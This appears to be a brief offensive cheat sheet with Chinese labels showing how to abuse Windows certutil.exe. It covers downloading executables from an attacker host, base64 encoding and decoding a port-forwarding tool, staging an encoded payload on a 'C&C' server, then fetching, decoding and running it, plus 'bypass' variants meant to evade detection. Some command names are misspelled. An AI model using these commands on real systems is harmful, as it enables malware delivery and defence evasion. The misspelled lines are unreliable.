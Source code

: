 	>certutil.exe -urlcache -split -f http://192.168.1.192/Client.exe 
	>certutil.exe -urlcache -split -f http://192.168.1.192/Client.exe  1.exe
	删除缓存
	>certutil.exe -urlcache -split -f http://192.168.1.192/Client.exe delete
	查看缓存
	>certutil.exe -urlcache *
	转为base64
	>certutil -encode lcx64.exe lcx64.txt
	解码
	>certutil -decode lcx64.txt lcx64.exe
	对文件进行编码下载后解码执行
	>base64 payload.exe > /var/www/html/1.txt # 在C&C上生成经base64编码的exe
	>certutril -urlcache -split -f http://192.168.0.107/1.txt & certurl -decode 1.txt ms.exe & ms.exe
	bypass
	>Certutil & Certutil –urlcache –f –split url
	>Certutil | Certutil –urlcache –f –split url